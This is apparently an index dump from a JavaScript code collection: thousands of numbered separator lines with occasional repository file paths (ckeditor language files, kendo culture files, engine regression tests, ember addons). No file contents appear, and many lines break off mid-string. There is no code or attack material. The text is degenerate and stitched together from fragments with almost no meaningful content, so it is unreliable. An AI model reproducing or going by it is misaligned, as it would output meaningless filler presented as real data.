=========================================27455===========================================
=========================================27456===========================================
=========================================27457===========================================
=========================================27458===========================================
=========================================27459===========================================
data/ember-cli/ember-cli/blueprints/component-test/files/tests/unit/__path__/__test__.js
=========================================27460===========================================
=========================================27461===========================================
=========================================27462===========================================
===========

=========================================27542===========================================
=========================================27543===========================================
=========================================27544===========================================
=========================================27545===========================================
=========================================27546===========================================
=========================================27547===========================================
=========================================27548===========================================
=========================================27549===========================================
=========================================27550===========================================
=========================================27551===========================================
data/mozilla/ubiquity/ubiquity/modules/parser/new/parser.js
========================================

=========================================27630===========================================
=========================================27631===========================================
=========================================27632===========================================
=========================================27633===========================================
=========================================27634===========================================
=========================================27635===========================================
data/mrzapp/openstash/OpenStash/Assets/Plugins/OpenGUI/Scripts/OGConsoleFeed.js
=========================================27636===========================================
=========================================27637===========================================
=========================================27638===========================================
=========================================27639===========================================
====================

=========================================27719===========================================
=========================================27720===========================================
=========================================27721===========================================
=========================================27722===========================================
=========================================27723===========================================
=========================================27724===========================================
=========================================27725===========================================
=========================================27726===========================================
=========================================27727===========================================
=========================================27728===========================================
=========================================27729===========================================
==========

=========================================27805===========================================
=========================================27806===========================================
data/telerik/kendo-ui-core/src/cultures/kendo.culture.de-CH.js
=========================================27807===========================================
=========================================27808===========================================
=========================================27809===========================================
=========================================27810===========================================
=========================================27811===========================================
=========================================27812===========================================
=========================================27813===========================================
=========================================27814===========================================
=====================================

=========================================27892===========================================
=========================================27893===========================================
=========================================27894===========================================
=========================================27895===========================================
=========================================27896===========================================
=========================================27897===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/stylescombo/lang/nl.js
=========================================27898===========================================
=========================================27899===========================================
=========================================27900===========================================
=========================================27901===========================================
=====================

=========================================27986===========================================
=========================================27987===========================================
=========================================27988===========================================
=========================================27989===========================================
=========================================27990===========================================
=========================================27991===========================================
=========================================27992===========================================
=========================================27993===========================================
=========================================27994===========================================
=========================================27995===========================================
=========================================27996===========================================
==========

=========================================28078===========================================
=========================================28079===========================================
=========================================28080===========================================
=========================================28081===========================================
=========================================28082===========================================
=========================================28083===========================================
=========================================28084===========================================
=========================================28085===========================================
=========================================28086===========================================
=========================================28087===========================================
=========================================28088===========================================
==========

=========================================28172===========================================
=========================================28173===========================================
=========================================28174===========================================
=========================================28175===========================================
=========================================28176===========================================
=========================================28177===========================================
=========================================28178===========================================
=========================================28179===========================================
=========================================28180===========================================
=========================================28181===========================================
=========================================28182===========================================
==========

=========================================28265===========================================
=========================================28266===========================================
=========================================28267===========================================
=========================================28268===========================================
data/telerik/kendo-ui-core/src/cultures/kendo.culture.nb.js
=========================================28269===========================================
=========================================28270===========================================
=========================================28271===========================================
=========================================28272===========================================
=========================================28273===========================================
=========================================28274===========================================
========================================

=========================================28356===========================================
=========================================28357===========================================
=========================================28358===========================================
=========================================28359===========================================
=========================================28360===========================================
=========================================28361===========================================
=========================================28362===========================================
=========================================28363===========================================
=========================================28364===========================================
=========================================28365===========================================
=========================================28366===========================================
==========

=========================================28447===========================================
=========================================28448===========================================
=========================================28449===========================================
=========================================28450===========================================
=========================================28451===========================================
=========================================28452===========================================
=========================================28453===========================================
=========================================28454===========================================
=========================================28455===========================================
=========================================28456===========================================
=========================================28457===========================================
==========

=========================================28544===========================================
=========================================28545===========================================
=========================================28546===========================================
=========================================28547===========================================
=========================================28548===========================================
=========================================28549===========================================
data/OfficeDev/TrainingContent/O3654/O3654-2 Deep dive into Mobile Development with Office 365 and Cordova/Completed Projects/CordovaLab_Exercise01/CordovaLab/merges/android/scripts/platformOverrides.js
=========================================28550===========================================
=========================================28551===========================================
=========================================28552===============================

=========================================28630===========================================
=========================================28631===========================================
=========================================28632===========================================
=========================================28633===========================================
=========================================28634===========================================
=========================================28635===========================================
=========================================28636===========================================
=========================================28637===========================================
=========================================28638===========================================
=========================================28639===========================================
=========================================28640===========================================
==========

=========================================28721===========================================
=========================================28722===========================================
=========================================28723===========================================
=========================================28724===========================================
=========================================28725===========================================
=========================================28726===========================================
=========================================28727===========================================
=========================================28728===========================================
=========================================28729===========================================
=========================================28730===========================================
=========================================28731===========================================
==========

=========================================28814===========================================
=========================================28815===========================================
=========================================28816===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/elementspath/lang/bs.js
=========================================28817===========================================
=========================================28818===========================================
=========================================28819===========================================
=========================================28820===========================================
=========================================28821===========================================
=========================================28822===========================================
=========================================28823===========================================
====================

=========================================28901===========================================
=========================================28902===========================================
=========================================28903===========================================
data/jxcore/jxcore/deps/mozjs/src/tests/js1_7/expressions/regress-349624.js
=========================================28904===========================================
=========================================28905===========================================
=========================================28906===========================================
=========================================28907===========================================
=========================================28908===========================================
=========================================28909===========================================
=========================================28910===========================================
========================

=========================================28985===========================================
=========================================28986===========================================
=========================================28987===========================================
=========================================28988===========================================
=========================================28989===========================================
=========================================28990===========================================
=========================================28991===========================================
=========================================28992===========================================
=========================================28993===========================================
=========================================28994===========================================
=========================================28995===========================================
==========

=========================================29073===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/sdk/Excel/model/DrawingObjects/Format/ChartLegend.js
=========================================29074===========================================
=========================================29075===========================================
=========================================29076===========================================
=========================================29077===========================================
=========================================29078===========================================
=========================================29079===========================================
=========================================29080===========================================
=========================================29081===========================================
=========================================29082========================================

=========================================29160===========================================
=========================================29161===========================================
=========================================29162===========================================
=========================================29163===========================================
=========================================29164===========================================
=========================================29165===========================================
=========================================29166===========================================
=========================================29167===========================================
=========================================29168===========================================
=========================================29169===========================================
=========================================29170===========================================
data/mozil

=========================================29247===========================================
=========================================29248===========================================
=========================================29249===========================================
=========================================29250===========================================
=========================================29251===========================================
=========================================29252===========================================
=========================================29253===========================================
=========================================29254===========================================
=========================================29255===========================================
=========================================29256===========================================
=========================================29257===========================================
==========

=========================================29335===========================================
=========================================29336===========================================
=========================================29337===========================================
=========================================29338===========================================
=========================================29339===========================================
=========================================29340===========================================
=========================================29341===========================================
=========================================29342===========================================
=========================================29343===========================================
=========================================29344===========================================
=========================================29345===========================================
==========

=========================================29427===========================================
=========================================29428===========================================
=========================================29429===========================================
=========================================29430===========================================
data/thinkgem/jeesite/src/main/webapp/static/ckeditor/_source/core/htmlparser/cdata.js
=========================================29431===========================================
=========================================29432===========================================
=========================================29433===========================================
=========================================29434===========================================
data/Memleak2/MasterTheory/Orion/Orion/StringTheory.js
=========================================29435===========================================
=========================================29436==

=========================================29517===========================================
=========================================29518===========================================
=========================================29519===========================================
=========================================29520===========================================
=========================================29521===========================================
=========================================29522===========================================
data/cdnjs/cdnjs/ajax/libs/select2/3.0.0/select2.js
=========================================29523===========================================
=========================================29524===========================================
=========================================29525===========================================
=========================================29526===========================================
=========================================29527==

=========================================29607===========================================
=========================================29608===========================================
=========================================29609===========================================
=========================================29610===========================================
=========================================29611===========================================
=========================================29612===========================================
=========================================29613===========================================
=========================================29614===========================================
data/emberjs/list-view/addon/list-item-view.js
=========================================29615===========================================
=========================================29616===========================================
=========================================29617=======

=========================================29702===========================================
=========================================29703===========================================
=========================================29704===========================================
=========================================29705===========================================
=========================================29706===========================================
=========================================29707===========================================
=========================================29708===========================================
data/jxcore/jxcore/deps/mozjs/src/tests/js1_7/regress/regress-453411.js
=========================================29709===========================================
=========================================29710===========================================
=========================================29711===========================================
============================

=========================================29794===========================================
=========================================29795===========================================
=========================================29796===========================================
=========================================29797===========================================
=========================================29798===========================================
=========================================29799===========================================
=========================================29800===========================================
=========================================29801===========================================
=========================================29802===========================================
=========================================29803===========================================
data/Breeze/breeze.js.samples/node/ngDocCode/public/test/lib/metadataOnClient.js
===================

=========================================29888===========================================
=========================================29889===========================================
=========================================29890===========================================
=========================================29891===========================================
=========================================29892===========================================
=========================================29893===========================================
=========================================29894===========================================
=========================================29895===========================================
=========================================29896===========================================
=========================================29897===========================================
=========================================29898===========================================
data/steal

=========================================29974===========================================
=========================================29975===========================================
=========================================29976===========================================
=========================================29977===========================================
=========================================29978===========================================
=========================================29979===========================================
=========================================29980===========================================
=========================================29981===========================================
=========================================29982===========================================
=========================================29983===========================================
=========================================29984===========================================
==========

=========================================30065===========================================
=========================================30066===========================================
=========================================30067===========================================
=========================================30068===========================================
=========================================30069===========================================
=========================================30070===========================================
=========================================30071===========================================
=========================================30072===========================================
=========================================30073===========================================
=========================================30074===========================================
=========================================30075===========================================
==========

=========================================30156===========================================
=========================================30157===========================================
data/mozilla/rhino/testsrc/tests/e4x/Regress/regress-375406.js
=========================================30158===========================================
=========================================30159===========================================
=========================================30160===========================================
=========================================30161===========================================
=========================================30162===========================================
=========================================30163===========================================
data/jsreport/jsreport/extension/reports/public/js/dashboard.reports.model.js
=========================================30164===========================================
=========================================30165===

=========================================30245===========================================
=========================================30246===========================================
=========================================30247===========================================
=========================================30248===========================================
=========================================30249===========================================
data/burkeholland/kendo-flippable/app/components/kendo-ui-core/src/js/cultures/kendo.culture.lb-LU.js
=========================================30250===========================================
=========================================30251===========================================
=========================================30252===========================================
=========================================30253===========================================
=========================================30254==========================================

=========================================30335===========================================
=========================================30336===========================================
=========================================30337===========================================
=========================================30338===========================================
=========================================30339===========================================
data/codefoster/codeshow/codeShow.JS/codeShow.JS.Shared/demos/printOptions/printOptions.js
=========================================30340===========================================
=========================================30341===========================================
=========================================30342===========================================
=========================================30343===========================================
=========================================30344===========================================
=========

=========================================30423===========================================
=========================================30424===========================================
=========================================30425===========================================
=========================================30426===========================================
data/bjnortier/shapesmith/src/csginterface/bspdb.js
=========================================30427===========================================
=========================================30428===========================================
=========================================30429===========================================
=========================================30430===========================================
=========================================30431===========================================
=========================================30432===========================================
=========================================30433==

=========================================30511===========================================
=========================================30512===========================================
=========================================30513===========================================
=========================================30514===========================================
=========================================30515===========================================
=========================================30516===========================================
data/jdickie/TEILiteEditor/plugins/ckeditor/_source/plugins/dialogui/plugin.js
=========================================30517===========================================
=========================================30518===========================================
=========================================30519===========================================
=========================================30520===========================================
=====================

=========================================30604===========================================
=========================================30605===========================================
=========================================30606===========================================
=========================================30607===========================================
data/Ayms/node-dom/lib/browser/index.js
=========================================30608===========================================
=========================================30609===========================================
=========================================30610===========================================
=========================================30611===========================================
=========================================30612===========================================
=========================================30613===========================================
=========================================30614==============

=========================================30692===========================================
=========================================30693===========================================
=========================================30694===========================================
=========================================30695===========================================
=========================================30696===========================================
=========================================30697===========================================
=========================================30698===========================================
=========================================30699===========================================
=========================================30700===========================================
=========================================30701===========================================
=========================================30702===========================================
==========

=========================================30781===========================================
data/mitchlloyd/ember-islands/addon/render-components.js
=========================================30782===========================================
=========================================30783===========================================
=========================================30784===========================================
=========================================30785===========================================
=========================================30786===========================================
=========================================30787===========================================
=========================================30788===========================================
=========================================30789===========================================
=========================================30790===========================================
=========================================30

=========================================30871===========================================
=========================================30872===========================================
=========================================30873===========================================
=========================================30874===========================================
=========================================30875===========================================
=========================================30876===========================================
=========================================30877===========================================
=========================================30878===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/format/lang/hr.js
=========================================30879===========================================
=========================================30880===========================================
==========================

=========================================30957===========================================
=========================================30958===========================================
=========================================30959===========================================
=========================================30960===========================================
=========================================30961===========================================
=========================================30962===========================================
=========================================30963===========================================
=========================================30964===========================================
=========================================30965===========================================
=========================================30966===========================================
=========================================30967===========================================
==========

=========================================31051===========================================
=========================================31052===========================================
=========================================31053===========================================
=========================================31054===========================================
=========================================31055===========================================
=========================================31056===========================================
data/EightShapes/Blocks/jspm_packages/npm/handlebars@2.0.0/lib/handlebars/exception.js
=========================================31057===========================================
=========================================31058===========================================
=========================================31059===========================================
=========================================31060===========================================
=============

=========================================31136===========================================
=========================================31137===========================================
data/webhook/webhook-cms/app/models/control-type.js
=========================================31138===========================================
data/google/traceur-compiler/test/instantiate/shorthand.js
=========================================31139===========================================
=========================================31140===========================================
=========================================31141===========================================
=========================================31142===========================================
=========================================31143===========================================
=========================================31144===========================================
=========================================31145=================================

=========================================31235===========================================
data/ihqs/WysiwygBundle/Resources/public/js/vendor/ckeditor/_source/plugins/showborders/plugin.js
=========================================31236===========================================
=========================================31237===========================================
=========================================31238===========================================
=========================================31239===========================================
=========================================31240===========================================
=========================================31241===========================================
=========================================31242===========================================
=========================================31243===========================================
=========================================31244===========================================
==

=========================================31322===========================================
=========================================31323===========================================
=========================================31324===========================================
=========================================31325===========================================
=========================================31326===========================================
=========================================31327===========================================
data/galetahub/rails-ckeditor/generators/ckeditor_install/templates/ckeditor/_source/lang/fo.js
=========================================31328===========================================
=========================================31329===========================================
=========================================31330===========================================
=========================================31331===========================================
====

=========================================31411===========================================
=========================================31412===========================================
=========================================31413===========================================
=========================================31414===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/table/lang/pt-br.js
=========================================31415===========================================
=========================================31416===========================================
=========================================31417===========================================
=========================================31418===========================================
=========================================31419===========================================
=========================================31420===========================================
========================

=========================================31505===========================================
=========================================31506===========================================
=========================================31507===========================================
=========================================31508===========================================
=========================================31509===========================================
=========================================31510===========================================
=========================================31511===========================================
=========================================31512===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/pastetext/lang/fi.js
=========================================31513===========================================
=========================================31514===========================================
=======================

=========================================31601===========================================
=========================================31602===========================================
=========================================31603===========================================
=========================================31604===========================================
=========================================31605===========================================
=========================================31606===========================================
=========================================31607===========================================
=========================================31608===========================================
=========================================31609===========================================
=========================================31610===========================================
=========================================31611===========================================
==========

=========================================31693===========================================
=========================================31694===========================================
=========================================31695===========================================
=========================================31696===========================================
=========================================31697===========================================
=========================================31698===========================================
=========================================31699===========================================
=========================================31700===========================================
=========================================31701===========================================
=========================================31702===========================================
=========================================31703===========================================
==========

=========================================31784===========================================
=========================================31785===========================================
=========================================31786===========================================
=========================================31787===========================================
=========================================31788===========================================
=========================================31789===========================================
=========================================31790===========================================
=========================================31791===========================================
=========================================31792===========================================
=========================================31793===========================================
=========================================31794===========================================
==========

=========================================31879===========================================
=========================================31880===========================================
=========================================31881===========================================
=========================================31882===========================================
=========================================31883===========================================
=========================================31884===========================================
=========================================31885===========================================
=========================================31886===========================================
=========================================31887===========================================
=========================================31888===========================================
=========================================31889===========================================
==========

=========================================31972===========================================
data/apache/couchdb/share/server/views.js
=========================================31973===========================================
=========================================31974===========================================
=========================================31975===========================================
=========================================31976===========================================
=========================================31977===========================================
=========================================31978===========================================
=========================================31979===========================================
=========================================31980===========================================
=========================================31981===========================================
=========================================31982============

=========================================32064===========================================
=========================================32065===========================================
=========================================32066===========================================
=========================================32067===========================================
=========================================32068===========================================
=========================================32069===========================================
=========================================32070===========================================
=========================================32071===========================================
=========================================32072===========================================
=========================================32073===========================================
=========================================32074===========================================
==========

=========================================32154===========================================
=========================================32155===========================================
=========================================32156===========================================
=========================================32157===========================================
=========================================32158===========================================
data/unknown/50156.js
=========================================32159===========================================
=========================================32160===========================================
data/jrburke/r.js/build/tests/nameOnly.build.js
=========================================32161===========================================
=========================================32162===========================================
=========================================32163===========================================
==============================

=========================================32244===========================================
=========================================32245===========================================
=========================================32246===========================================
=========================================32247===========================================
=========================================32248===========================================
=========================================32249===========================================
=========================================32250===========================================
=========================================32251===========================================
=========================================32252===========================================
=========================================32253===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/sdk/PowerPoint/Editor/TrackObjects/MoveTracks.js


=========================================32335===========================================
=========================================32336===========================================
=========================================32337===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/div/lang/nl.js
=========================================32338===========================================
=========================================32339===========================================
=========================================32340===========================================
=========================================32341===========================================
=========================================32342===========================================
data/telerik/kendo-ui-core/src/cultures/kendo.culture.es-CL.js
=========================================32343===========================================
=========================================32344==============

=========================================32424===========================================
=========================================32425===========================================
=========================================32426===========================================
=========================================32427===========================================
=========================================32428===========================================
=========================================32429===========================================
=========================================32430===========================================
=========================================32431===========================================
=========================================32432===========================================
=========================================32433===========================================
data/webhook/webhook-cms/app/controllers/wh/content/all-types.js
===================================

=========================================32520===========================================
=========================================32521===========================================
=========================================32522===========================================
=========================================32523===========================================
=========================================32524===========================================
=========================================32525===========================================
=========================================32526===========================================
=========================================32527===========================================
=========================================32528===========================================
=========================================32529===========================================
=========================================32530===========================================
==========

=========================================32615===========================================
data/retroj/conkeror/modules/debug.js
=========================================32616===========================================
=========================================32617===========================================
data/unknown/55085.js
=========================================32618===========================================
=========================================32619===========================================
=========================================32620===========================================
=========================================32621===========================================
=========================================32622===========================================
=========================================32623===========================================
data/chao/RESTClient/content/js/restclient.helper.js
=========================================32624===============================

=========================================32702===========================================
=========================================32703===========================================
=========================================32704===========================================
=========================================32705===========================================
=========================================32706===========================================
=========================================32707===========================================
=========================================32708===========================================
=========================================32709===========================================
=========================================32710===========================================
=========================================32711===========================================
=========================================32712===========================================
==========

=========================================32792===========================================
=========================================32793===========================================
=========================================32794===========================================
=========================================32795===========================================
=========================================32796===========================================
=========================================32797===========================================
=========================================32798===========================================
=========================================32799===========================================
=========================================32800===========================================
=========================================32801===========================================
=========================================32802===========================================
==========

=========================================32878===========================================
=========================================32879===========================================
=========================================32880===========================================
=========================================32881===========================================
data/filamentgroup/grumpicon/public/js/utils/readFile.js
=========================================32882===========================================
=========================================32883===========================================
=========================================32884===========================================
=========================================32885===========================================
data/jacomyal/typology/test/unit.test.js
=========================================32886===========================================
=========================================32887===========================================
==

=========================================32971===========================================
=========================================32972===========================================
=========================================32973===========================================
=========================================32974===========================================
=========================================32975===========================================
=========================================32976===========================================
=========================================32977===========================================
=========================================32978===========================================
=========================================32979===========================================
data/woollybogger/Firebolt/src/core.js
=========================================32980===========================================
=========================================32981===============

=========================================33063===========================================
=========================================33064===========================================
=========================================33065===========================================
=========================================33066===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/font/lang/tr.js
=========================================33067===========================================
=========================================33068===========================================
=========================================33069===========================================
=========================================33070===========================================
=========================================33071===========================================
=========================================33072===========================================
================================

=========================================33153===========================================
=========================================33154===========================================
=========================================33155===========================================
=========================================33156===========================================
=========================================33157===========================================
=========================================33158===========================================
=========================================33159===========================================
=========================================33160===========================================
=========================================33161===========================================
=========================================33162===========================================
=========================================33163===========================================
==========

=========================================33242===========================================
=========================================33243===========================================
=========================================33244===========================================
=========================================33245===========================================
=========================================33246===========================================
=========================================33247===========================================
=========================================33248===========================================
=========================================33249===========================================
=========================================33250===========================================
=========================================33251===========================================
=========================================33252===========================================
data/samse

=========================================33330===========================================
=========================================33331===========================================
=========================================33332===========================================
=========================================33333===========================================
=========================================33334===========================================
=========================================33335===========================================
=========================================33336===========================================
=========================================33337===========================================
=========================================33338===========================================
=========================================33339===========================================
=========================================33340===========================================
==========

=========================================33419===========================================
=========================================33420===========================================
data/sebastienros/jint/Jint.Tests.Ecma/TestCases/ch12/12.6/12.6.3/S12.6.3_A11.1_T3.js
=========================================33421===========================================
=========================================33422===========================================
=========================================33423===========================================
=========================================33424===========================================
=========================================33425===========================================
=========================================33426===========================================
=========================================33427===========================================
=========================================33428===========================================
==============

=========================================33507===========================================
=========================================33508===========================================
=========================================33509===========================================
=========================================33510===========================================
=========================================33511===========================================
=========================================33512===========================================
=========================================33513===========================================
=========================================33514===========================================
=========================================33515===========================================
=========================================33516===========================================
=========================================33517===========================================
==========

=========================================33599===========================================
data/unknown/35229.js
=========================================33600===========================================
=========================================33601===========================================
=========================================33602===========================================
=========================================33603===========================================
=========================================33604===========================================
=========================================33605===========================================
=========================================33606===========================================
=========================================33607===========================================
=========================================33608===========================================
=========================================33609================================

=========================================33686===========================================
=========================================33687===========================================
=========================================33688===========================================
=========================================33689===========================================
=========================================33690===========================================
=========================================33691===========================================
=========================================33692===========================================
=========================================33693===========================================
=========================================33694===========================================
=========================================33695===========================================
data/Trickass/webinterface.visualix/scripts/visualix.js
=========================================336

=========================================33778===========================================
=========================================33779===========================================
=========================================33780===========================================
=========================================33781===========================================
=========================================33782===========================================
=========================================33783===========================================
=========================================33784===========================================
=========================================33785===========================================
=========================================33786===========================================
=========================================33787===========================================
=========================================33788===========================================
==========

=========================================33871===========================================
=========================================33872===========================================
=========================================33873===========================================
=========================================33874===========================================
=========================================33875===========================================
=========================================33876===========================================
=========================================33877===========================================
=========================================33878===========================================
=========================================33879===========================================
=========================================33880===========================================
=========================================33881===========================================
==========

=========================================33958===========================================
=========================================33959===========================================
data/unknown/57091.js
=========================================33960===========================================
=========================================33961===========================================
=========================================33962===========================================
=========================================33963===========================================
=========================================33964===========================================
data/unknown/80675.js
=========================================33965===========================================
=========================================33966===========================================
=========================================33967===========================================
=========================================33968==========

=========================================34044===========================================
=========================================34045===========================================
=========================================34046===========================================
=========================================34047===========================================
=========================================34048===========================================
=========================================34049===========================================
=========================================34050===========================================
=========================================34051===========================================
=========================================34052===========================================
=========================================34053===========================================
=========================================34054===========================================
==========

=========================================34130===========================================
data/joshkurz/Black-Belt-AngularJS-Directives/chapters/chapter2/insert_code_1588OS_02_01.js
=========================================34131===========================================
=========================================34132===========================================
=========================================34133===========================================
=========================================34134===========================================
=========================================34135===========================================
=========================================34136===========================================
data/OfficeDev/TrainingContent/O3652/O3652-2 Deep Dive Apps for Office in Word/Completed Projects/ContentWriter/ContentWriterWeb/Scripts/Office/1.1/it-it/office_strings.debug.js
=========================================34137===========================================
==========

=========================================34217===========================================
=========================================34218===========================================
=========================================34219===========================================
data/foo123/FILTER.js/src/plugins/HueExtractor.js
=========================================34220===========================================
=========================================34221===========================================
=========================================34222===========================================
=========================================34223===========================================
data/balanced/balanced-dashboard/app/helpers/human-readable-date-short.js
=========================================34224===========================================
=========================================34225===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/sourcearea

=========================================34304===========================================
=========================================34305===========================================
=========================================34306===========================================
=========================================34307===========================================
=========================================34308===========================================
=========================================34309===========================================
=========================================34310===========================================
=========================================34311===========================================
=========================================34312===========================================
=========================================34313===========================================
=========================================34314===========================================
==========

=========================================34396===========================================
=========================================34397===========================================
=========================================34398===========================================
=========================================34399===========================================
=========================================34400===========================================
=========================================34401===========================================
=========================================34402===========================================
=========================================34403===========================================
=========================================34404===========================================
=========================================34405===========================================
=========================================34406===========================================
==========

=========================================34489===========================================
=========================================34490===========================================
=========================================34491===========================================
=========================================34492===========================================
=========================================34493===========================================
=========================================34494===========================================
=========================================34495===========================================
=========================================34496===========================================
=========================================34497===========================================
=========================================34498===========================================
=========================================34499===========================================
==========

=========================================34583===========================================
=========================================34584===========================================
=========================================34585===========================================
=========================================34586===========================================
=========================================34587===========================================
=========================================34588===========================================
=========================================34589===========================================
=========================================34590===========================================
=========================================34591===========================================
=========================================34592===========================================
=========================================34593===========================================
data/ONLYO

=========================================34675===========================================
=========================================34676===========================================
=========================================34677===========================================
=========================================34678===========================================
=========================================34679===========================================
=========================================34680===========================================
=========================================34681===========================================
=========================================34682===========================================
=========================================34683===========================================
=========================================34684===========================================
=========================================34685===========================================
==========

=========================================34764===========================================
data/yapplabs/glazier/app/controllers/modal_pane_type.js
=========================================34765===========================================
=========================================34766===========================================
=========================================34767===========================================
=========================================34768===========================================
=========================================34769===========================================
=========================================34770===========================================
=========================================34771===========================================
=========================================34772===========================================
=========================================34773===========================================
=========================================34

=========================================34854===========================================
=========================================34855===========================================
=========================================34856===========================================
=========================================34857===========================================
=========================================34858===========================================
=========================================34859===========================================
=========================================34860===========================================
=========================================34861===========================================
=========================================34862===========================================
=========================================34863===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/find/lang/da.js
================================

data/quickapps-modules/QACMS-Wysiwyg/webroot/js/ckeditor/_source/lang/da.js
=========================================34946===========================================
=========================================34947===========================================
=========================================34948===========================================
=========================================34949===========================================
=========================================34950===========================================
=========================================34951===========================================
=========================================34952===========================================
=========================================34953===========================================
=========================================34954===========================================
=========================================34955===========================================
========================

=========================================35038===========================================
=========================================35039===========================================
=========================================35040===========================================
=========================================35041===========================================
=========================================35042===========================================
=========================================35043===========================================
=========================================35044===========================================
=========================================35045===========================================
=========================================35046===========================================
=========================================35047===========================================
=========================================35048===========================================
==========

=========================================35125===========================================
=========================================35126===========================================
=========================================35127===========================================
=========================================35128===========================================
=========================================35129===========================================
data/videojs/video.js/src/js/control-bar/volume-control.js
=========================================35130===========================================
=========================================35131===========================================
=========================================35132===========================================
=========================================35133===========================================
=========================================35134===========================================
=========================================

=========================================35216===========================================
=========================================35217===========================================
=========================================35218===========================================
=========================================35219===========================================
=========================================35220===========================================
=========================================35221===========================================
=========================================35222===========================================
=========================================35223===========================================
=========================================35224===========================================
=========================================35225===========================================
=========================================35226===========================================
==========

=========================================35306===========================================
=========================================35307===========================================
=========================================35308===========================================
=========================================35309===========================================
=========================================35310===========================================
=========================================35311===========================================
=========================================35312===========================================
=========================================35313===========================================
=========================================35314===========================================
=========================================35315===========================================
data/dockyard/ember-cli-i18n/addon/rules/ur.js
=========================================35316=======

=========================================35398===========================================
=========================================35399===========================================
=========================================35400===========================================
=========================================35401===========================================
data/Novik/ruTorrent/plugins/seedingtime/lang/zh-tw.js
=========================================35402===========================================
=========================================35403===========================================
=========================================35404===========================================
=========================================35405===========================================
=========================================35406===========================================
=========================================35407===========================================
=========================================3540

=========================================35485===========================================
=========================================35486===========================================
=========================================35487===========================================
=========================================35488===========================================
=========================================35489===========================================
=========================================35490===========================================
=========================================35491===========================================
=========================================35492===========================================
=========================================35493===========================================
=========================================35494===========================================
=========================================35495===========================================
==========

=========================================35572===========================================
=========================================35573===========================================
=========================================35574===========================================
=========================================35575===========================================
=========================================35576===========================================
=========================================35577===========================================
=========================================35578===========================================
=========================================35579===========================================
=========================================35580===========================================
=========================================35581===========================================
=========================================35582===========================================
==========

=========================================35664===========================================
=========================================35665===========================================
=========================================35666===========================================
=========================================35667===========================================
=========================================35668===========================================
=========================================35669===========================================
=========================================35670===========================================
=========================================35671===========================================
=========================================35672===========================================
=========================================35673===========================================
=========================================35674===========================================
==========

=========================================35755===========================================
=========================================35756===========================================
=========================================35757===========================================
=========================================35758===========================================
=========================================35759===========================================
=========================================35760===========================================
=========================================35761===========================================
=========================================35762===========================================
=========================================35763===========================================
=========================================35764===========================================
=========================================35765===========================================
==========

=========================================35850===========================================
=========================================35851===========================================
=========================================35852===========================================
=========================================35853===========================================
data/google/traceur-compiler/src/semantics/ScopeReferences.js
=========================================35854===========================================
=========================================35855===========================================
=========================================35856===========================================
=========================================35857===========================================
=========================================35858===========================================
=========================================35859===========================================
======================================

=========================================35936===========================================
=========================================35937===========================================
=========================================35938===========================================
=========================================35939===========================================
=========================================35940===========================================
=========================================35941===========================================
=========================================35942===========================================
=========================================35943===========================================
=========================================35944===========================================
=========================================35945===========================================
=========================================35946===========================================
==========

=========================================36024===========================================
=========================================36025===========================================
=========================================36026===========================================
=========================================36027===========================================
=========================================36028===========================================
=========================================36029===========================================
=========================================36030===========================================
=========================================36031===========================================
=========================================36032===========================================
=========================================36033===========================================
=========================================36034===========================================
==========

=========================================36119===========================================
=========================================36120===========================================
=========================================36121===========================================
data/stackforge/compass-web/v2/dash/app/dashboards/scripted.js
=========================================36122===========================================
=========================================36123===========================================
=========================================36124===========================================
=========================================36125===========================================
=========================================36126===========================================
=========================================36127===========================================
=========================================36128===========================================
=====================================

=========================================36211===========================================
=========================================36212===========================================
=========================================36213===========================================
=========================================36214===========================================
=========================================36215===========================================
=========================================36216===========================================
=========================================36217===========================================
=========================================36218===========================================
=========================================36219===========================================
=========================================36220===========================================
=========================================36221===========================================
==========

=========================================36302===========================================
=========================================36303===========================================
=========================================36304===========================================
=========================================36305===========================================
=========================================36306===========================================
=========================================36307===========================================
=========================================36308===========================================
=========================================36309===========================================
=========================================36310===========================================
=========================================36311===========================================
=========================================36312===========================================
==========

=========================================36393===========================================
=========================================36394===========================================
=========================================36395===========================================
=========================================36396===========================================
=========================================36397===========================================
=========================================36398===========================================
=========================================36399===========================================
=========================================36400===========================================
=========================================36401===========================================
=========================================36402===========================================
=========================================36403===========================================
==========

=========================================36479===========================================
=========================================36480===========================================
=========================================36481===========================================
=========================================36482===========================================
=========================================36483===========================================
data/frequent/tableview/filterview.js
=========================================36484===========================================
=========================================36485===========================================
=========================================36486===========================================
=========================================36487===========================================
=========================================36488===========================================
=========================================36489================

=========================================36569===========================================
=========================================36570===========================================
=========================================36571===========================================
=========================================36572===========================================
=========================================36573===========================================
=========================================36574===========================================
=========================================36575===========================================
=========================================36576===========================================
=========================================36577===========================================
=========================================36578===========================================
=========================================36579===========================================
==========

=========================================36658===========================================
=========================================36659===========================================
=========================================36660===========================================
=========================================36661===========================================
=========================================36662===========================================
=========================================36663===========================================
=========================================36664===========================================
=========================================36665===========================================
=========================================36666===========================================
=========================================36667===========================================
=========================================36668===========================================
==========

=========================================36747===========================================
=========================================36748===========================================
=========================================36749===========================================
=========================================36750===========================================
data/operasoftware/dragonfly/src/ui-scripts/tempview.js
=========================================36751===========================================
=========================================36752===========================================
=========================================36753===========================================
=========================================36754===========================================
=========================================36755===========================================
=========================================36756===========================================
=========================================367

=========================================36836===========================================
=========================================36837===========================================
=========================================36838===========================================
=========================================36839===========================================
=========================================36840===========================================
=========================================36841===========================================
=========================================36842===========================================
=========================================36843===========================================
=========================================36844===========================================
data/unknown/25747.js
=========================================36845===========================================
=========================================36846================================

=========================================36930===========================================
=========================================36931===========================================
=========================================36932===========================================
=========================================36933===========================================
=========================================36934===========================================
=========================================36935===========================================
=========================================36936===========================================
=========================================36937===========================================
=========================================36938===========================================
=========================================36939===========================================
=========================================36940===========================================
data/mozil

=========================================37021===========================================
=========================================37022===========================================
=========================================37023===========================================
=========================================37024===========================================
=========================================37025===========================================
=========================================37026===========================================
